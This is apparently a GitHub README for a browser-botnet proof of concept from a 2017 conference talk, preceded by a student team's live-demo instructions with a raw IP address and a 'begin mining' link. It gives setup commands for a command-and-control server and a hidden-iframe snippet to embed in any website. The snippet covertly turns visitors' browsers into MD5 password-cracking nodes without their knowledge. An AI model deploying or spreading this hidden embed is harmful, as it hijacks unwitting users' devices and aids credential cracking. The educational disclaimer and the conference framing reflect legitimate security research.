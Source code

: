 #How to connect to the live demo

//Commands Needed to run//

git clone

cd CSC698Team01--PasswordCracking

npm install

sudo node client.js 73.158.194.215:3000

//Commands Needed to run//

To begin mining please go to the following link

http://73.158.194.215:3000/embed/













# Distributed Password Cracking


Borrow CPU cycles from visitor's web browsers to crack MD5 password hashes. Embedding a hidden `<iframe>` to a website will automatically add a visitor's browser as a node in a password cracking botnet. Their browser will received MD5 hashes and password candidates from a command-and-control server and report back any passwords it cracks for the duration of the time the visitor is browsing the "infected" website.

![Screenshot](.screenshot.png)

```html
<!-- add a single iframe embed to *your* website to add all visitors
     as nodes in the password cracking botnet -->
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```

This is proof-of-concept code for the [Browser as Botnet talk](http://radicalnetworks.org/participants/brannon-dorsey) ([video](https://livestream.com/internetsociety/radnets17/videos/164720367)) at [Radical Networks 2017](http://radicalnetworks.org/). As such, it **is not** optimized. There are far [more efficient ways](https://github.com/brannondorsey/naive-hashcat) to crack passwords if that is your goal. This project is intended to illustrate how compute jobs can be massively distributed across browsers.

**DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use. Don't be a dick.**

## Getting Started

```bash
# clone this repo
git clone https://github.com/brannondorsey/distributed-password-cracking
cd distributed-password-cracking

# install the dependencies
npm install

# run the command-and-control server
node server.js
```

Navigate to http://localhost:3000 to view the **unprotected** "admin" panel. This microsite allows you to view the activity of your botnet in real-time. To test that your password cracking network is working, open another browser tab to http://localhost:3000/embed. This creates a browser cracking node and launches one web worker per CPU on your machine. You should now see a connected node on the admin panel.

The server distributes password candidates and MD5 hashes to browser clients continuously as they connect. It uses:

- [`data/passwords.txt`](data/passwords.txt): The first 100,000 passwords from the [Rockyou](https://wiki.skullsecurity.org/Passwords) password dictionary
- [`data/hashes.txt`](data/hashes.txt): The `example0.hash` MD5 hashes distributed with [Hashcat](https://hashcat.net/hashcat/)

Cracked passwords are saved to `data/cracked.txt` like so:

```
5f4dcc3b5aa765d61d8327deb882cf99:password
```

Replace `passwords.txt` and `hashes.txt` to use your own password dictionary and MD5 hashes.

### Embedding the `<iframe>`

Once your server is running adding nodes is as easy as including an iframe in your website. For this to work, your node server has to be publicly accessible from the web. That means setting up port forwarding/ssh tunnels or renting a VPS (on AWS or the like) without a firewall on port 3000. Add the below iframe to whatever web page you would like visitors to crack passwords from:

```html
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```
**Note**: The node `server.js` enables CORs by default, but if you are proxying the connection (via Nginx, etc...) you may need to enable CORs on that proxy server as well.

## Future Features

- WebAssembly MD5 hashing. I'm close to this but ran out of time ahead of the talk. I'm reaching near native speeds in my tests, bringing hashrates on my machine from ~700K a second to 5M, nearly an order of magnitude speedup!
- CPU throttling settings

## License and Attribution

This software is released under an MIT license. You are free to use, modify, distribute, and sell it under those terms.
